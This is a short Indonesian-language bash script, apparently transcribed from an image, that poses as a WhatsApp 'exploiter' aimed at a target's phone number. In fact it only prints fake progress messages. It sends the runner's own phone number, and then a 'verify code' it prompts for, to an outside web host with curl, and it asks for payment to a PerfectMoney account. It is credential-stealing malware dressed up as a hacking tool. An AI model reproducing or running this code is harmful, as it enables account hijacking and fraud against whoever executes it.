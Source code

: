 

#!/bin/bash
clear
echo "
<-- Ganteng -->
####################
#   Whatsapp Code  # By ./C3W3KBerB4T4n9
#     Exploiter    # ceweberbatang59@gmail.com
####################
Copyright (c) 2018 ./C3W3KBERB4T4N9 Ganteng";
echo "";
read -p "Nomer Kamu (+62xxxx)=> " nomer;
read -p "Nomer Target (+62xxxx) => " target;
sleep 2
echo "[+] Syncing Target...";
sleep 1
echo "Login  => $nomer";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Exploiting...";
echo "Nomer => $nomer" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5;
echo "[+] Done.";
echo "Pay For Get Code PerfectMoney : U19478215";
read -p "Verify Code => " code;
sleep 2
echo "[+] Connecting to whatsapp.com...";
echo "Login => $nomer";
sleep 0.5
echo "Code => $code";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Sending Exploit...";
echo "Code => $code" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 5
echo "[+] Success Exploited!";
exit;
